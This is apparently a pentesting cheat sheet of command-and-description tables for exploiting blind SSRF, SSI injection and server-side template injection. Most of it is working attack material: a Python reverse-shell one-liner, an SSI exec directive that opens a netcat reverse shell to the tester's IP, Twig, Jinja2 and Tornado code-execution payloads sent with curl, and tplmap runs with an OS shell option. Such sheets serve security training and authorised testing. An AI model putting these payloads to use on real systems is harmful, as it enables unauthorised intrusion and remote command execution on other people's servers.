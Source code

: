 ### Blind SSRF Exploitation Example

|   |   |
|---|---|
|**Command**|**Description**|
|`nc -lvnp 9090`|Starting a netcat listener|
|`echo """<B64 encoded response>""" \| base64 -d`|Decoding the base64 encoded response|
|`export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`|Reverse shell payload (to be URL encoaded twice)|

### SSI Injection Exploitation Example

|   |   |
|---|---|
|**SSI Directive Payload**|**Description**|
|`<!--#echo var="DATE_LOCAL" -->`|Date|
|`<!--#printenv -->`|All variables|
|`<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->`|Reverse Shell|

### SSTI Exploitation Example 1

|   |   |
|---|---|
|**Command**|**Description**|
|`git clone https://github.com/epinna/tplmap.git`|Cloning the tplmap repoistory|
|`cd tplmap`|Navigating to the new directory|
|`pip install virtualenv`|Installing the virtual environment with pip|
|`virtualenv -p python2 venv`|Creating a virtual environment named venv with python2|
|`source venv/bin/activate`|Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter|
|`pip install -r requirements.txt`|Installing dependencies|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`|Running tplmap against the target|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`|Running tplmap with the os-shell option|
|`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}`|Twig RCE payload|

### SSTI Exploitation Example 2

|                                                                                                                                           |                                                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| **Command**                                                                                                                               | **Description**                                                      |
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                                                                    | Interacting with the remote target (Spring payload)                  |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`                                              | Interacting with the remote target (Twig payload)                    |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`                                                        | Interacting with the remote target (Jinja2 basic injection)          |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`                                          | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email=<div data-gb-custom-block data-tag="import"></div>{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)                 |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`                                                                    | Automating the exploitation process with tplmap                      |
|                                                                                                                                           |                                                                      |
